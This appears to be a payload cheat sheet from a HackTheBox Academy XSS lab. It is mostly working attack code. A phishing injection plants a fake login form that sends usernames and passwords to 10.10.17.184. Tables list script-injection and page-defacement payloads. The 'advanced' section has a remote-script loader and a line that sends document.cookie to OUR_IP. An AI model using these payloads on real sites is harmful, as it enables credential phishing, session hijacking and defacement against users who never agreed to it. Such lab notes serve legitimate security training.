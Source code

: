 
## XSS Discovery

**Entry point** = /phishing  
**Exploit page** = /send.php

### Basic Phishing Payload
```javascript
' onerror='document.getElementById("urlform").remove();' <div>
  <h3>Please login to continue</h3>
  <form action=http://10.10.17.184>
    <input type="text" name="username" placeholder="Username">
    <input type="text" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
</div> <!--
```

---

## XSS Payloads Reference

### Basic XSS Payloads
| Payload                                 | Description       |
| --------------------------------------- | ----------------- |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>`                           | Basic XSS Payload |
| `<script>print()</script>`              | Basic XSS Payload |

### HTML-Based XSS Payloads
| Payload                                     | Description            |
| ------------------------------------------- | ---------------------- |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |

### Page Modification Payloads
| Payload                                                                                       | Description                   |
| --------------------------------------------------------------------------------------------- | ----------------------------- |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color       |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image       |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title          |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element   |

### Advanced XSS Payloads
| Payload                                                                         | Description               |
| ------------------------------------------------------------------------------- | ------------------------- |
| `<script src="http://OUR_IP/script.js"></script>`                               | Load remote script        |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |

---